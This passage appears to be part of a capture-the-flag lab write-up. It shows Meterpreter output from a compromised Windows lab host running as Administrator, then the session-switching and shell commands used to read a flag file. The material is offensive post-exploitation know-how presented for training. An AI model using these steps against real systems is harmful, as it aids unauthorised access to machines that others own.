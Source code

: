 ![Target2 exploited](.gitbook/assets/image-20230420001636051.png)

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

```bash
background
sessions -n target-2 -i 2
```

![](.gitbook/assets/image-20230420001830582.png)

```
sessions 2
shell
cd /
type flag.txt
```



<details><summary>Reveal Flag: 🚩</summary></details>



------

